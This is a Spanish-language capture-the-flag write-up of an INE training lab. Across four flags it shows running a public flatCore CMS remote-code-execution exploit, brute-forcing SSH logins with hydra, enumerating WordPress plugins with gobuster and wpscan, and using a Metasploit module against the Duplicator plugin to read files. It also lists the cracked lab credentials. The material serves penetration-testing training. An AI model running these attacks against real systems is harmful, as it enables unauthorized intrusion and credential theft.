# Exploitation CTF 1

Two Linux machines are accessible at **target1.ine.local** and **target2.ine.local**
/usr/share/nmap/nselib/data/wp-plugins.lst
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

- FLAG1
Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful



Consultamos el puerto 80



Podemos registrarnos con las credenciales que nos dan admin:password1

Encontramos también directorios no indexados en */robots.txt*



Accedemos a un panel de flatCore CMS



Vemos un flatCore CMS

Buscaremos exploits en searchsploit



Usaremos el **FlatCore CMS 2.0.7 Remote Code Execution**
```bash
python3 50262.py http://target1.ine.local admin password1
```



Vemos la primera flag listando el directorio / como nos dice en el enunciado



- FLAG2

Encontramos un usuario **iamaweakuser**



Intentaremos bruteforcear la contraseña con el diccionario que nos dan
```bash
hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://target1.ine.local -V -f
```



iamaweakuser:angel

Nos conectamos por ssh
```bash
ssh iamaweakuser@target1.ine.local
```



- FLAG3



Vemos un wordpress



Vemos un usuario **admin**

Buscaremos el plugin vulnerable del que habla el enunciado
```bash
gobuster dir -u http://target2.ine.local -w /usr/share/nmap/nselib/data/wp-plugins.lst -t 200 -x php,html,txt,py,xml
```



No vemos nada a priori

Lanzamos un wpscan con el diccionario de plugins que nos han pasado
```bash
wpscan --url http://target2.ine.local --plugins-list /usr/share/nmap/nselib/data/wp-plugins.lst --plugins-detection aggressive
```



Encontramos un plugin **duplicator** que puede que sea vulnerable
- Vemos gracias al directory listing dentro del *readme.txt* que es la versión 1.3.26



Buscamos exploits para el plugin



Lo buscamos en metasploit



Tenemos capacidad de ver archivos en el sistema, listaremos la flag en /
```bash
set FILEPATH /flag3.txt
```



- FLAG4

Encontramos el usuario **iamacrazyfreeuser**



Probaremos a bruteforcear la contraseña de este usuario
```bash
hydra -l iamacrazyfreeuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://target2.ine.local -V -f
```



iamacrazyfreeuser:daniel

Accedemos por ssh
```bash
ssh iamacrazyfreeuser@target2.ine.local
```

- Nos deja acceder sin contraseña

Vemos la flag al acceder


